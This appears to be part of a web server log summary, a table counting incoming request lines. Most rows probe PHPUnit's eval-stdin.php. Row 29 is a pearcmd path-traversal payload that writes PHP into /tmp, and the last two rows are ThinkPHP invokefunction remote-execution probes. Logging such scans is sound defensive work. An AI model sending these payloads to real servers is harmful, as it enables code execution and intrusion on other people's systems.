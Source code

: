 |  20 |                     4 | GET /panel/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                      |
|  21 |                     4 | GET /workspace/drupal/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                           |
|  22 |                     4 | GET /blog/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                       |
|  23 |                     4 | GET /vendor/phpunit/phpunit/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                |
|  24 |                     4 | GET /admin/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                      |
|  25 |                     4 | GET /apps/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                       |
|  26 |                     4 | GET /crm/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                        |
|  27 |                     4 | GET /cms/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                        |
|  28 |                     4 | GET /public/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                     |
|  29 |                     4 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                                                 |
|  30 |                     4 | GET /app/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                        |
|  31 |                     4 | GET /index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                                  |
|  32 |                     4 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                           |